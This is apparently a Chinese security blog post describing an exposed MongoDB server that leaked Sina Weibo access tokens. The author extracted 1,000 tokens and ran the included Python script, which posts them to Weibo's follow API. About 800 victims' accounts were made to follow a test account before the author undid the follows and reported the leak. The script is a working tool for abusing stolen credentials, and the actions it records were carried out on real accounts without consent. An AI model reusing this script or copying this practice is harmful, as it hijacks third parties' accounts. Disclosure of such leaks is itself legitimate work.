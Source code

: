 ```yaml
---
layout: post
title: Mongodb未授权访问漏洞之某主机泄露新浪微博accessToken
---
```


## {{ page.title }}


<p class="date">{{ page.date | date_to_string }} - Evi1m0</p>

#### 背景

在前段时间邪红F1,2,4发出 [《Mongodb unauthorized access vulnerability global probing report》](http://www.hackersoul.com/post/mongodb_unauthorized_access_vulnerability_global_probing_report.html) 后，我们对这些受影响的列表进行了简单的数据分析，其中发现了一台有趣的主机。

#### 数据泄露

其中这台Mongodb数据主机存储着大量的微信公众号信息，新浪微博授权信息等敏感信息，其中我们对新浪微博授权信息进行简单的测试。

#### 测试过程

筛选1000条存储的用户新浪微博的授权数据，其中格式为：

    {
        "_modified" : ISODate("2014-09-14T06:30:33.718Z"),
        "_created" : ISODate("2014-09-14T06:30:33.718Z"),
        "uid" : "163****265",
        "url" : "u/163****265",
        "name" : "猫****",
        "screenName" : "猫****",
        "accessToken" : "2.00LniemB******d10ba02ef5oEMJTB",
        "description" : "",
        "verified" : false,
        "logo" : "http://tp2.sinaimg.cn/1635102265/50/4000*****04/1",
        "logoLarge" : "http://tp2.sinaimg.cn/1635102265/180/4000*****04/1",
        "type" : "normal",
        "_id" : "14872d****48a87"
    }
    
其中数据泄露新浪微博用户授权成功后的accessToken值，将数据以JSON进行导出后使用Python进行处理，提取出1000条accessToken方便进行测试。

[微博API](http://open.weibo.com/wiki/%E5%BE%AE%E5%8D%9AAPI)：

- [statuses/update 发布一条微博信息](http://open.weibo.com/wiki/2/statuses/update)
- [statuses/user_timeline/ids 获取用户发布的微博的ID](http://open.weibo.com/wiki/2/statuses/user_timeline/ids)
- [statuses/destroy 根据微博ID删除指定微博](http://open.weibo.com/wiki/2/statuses/destroy)
- [friendships/create 关注一个用户](http://open.weibo.com/wiki/2/friendships/create)
- [More](http://open.weibo.com/wiki/%E5%BE%AE%E5%8D%9AAPI)

之后我们使用关注用户API进行简单的测试，编写脚本批量的利用泄露的accessToken值进行关注用户：

    #!/usr/bin/env python
    # coding=utf8
    # author=evi1m0#ff0000team

    import requests

    f = open('./accessToken.txt','r')
    flag = 1
    for i in f:
        api_url = 'https://api.weibo.com/2/friendships/create.json'
        post = {"uid":"5238604657", "access_token":i.split()}
        requests.post(api_url, data=post)
        flag+=1
        print '[*] ' + str(flag) + ': ' + api_url
        print post
        print
        
其中uid为关注用户的UID，遍历./accessToken.txt中的accessToken进行请求，于是不一会儿的功夫我们测试微博收到了新增800多个粉丝的消息，后面我们又利用取消关注API进行了取消操作。

#### 状态

我们没有对这些数据进行恶意利用，目前已提交给官方进行及时修复：）
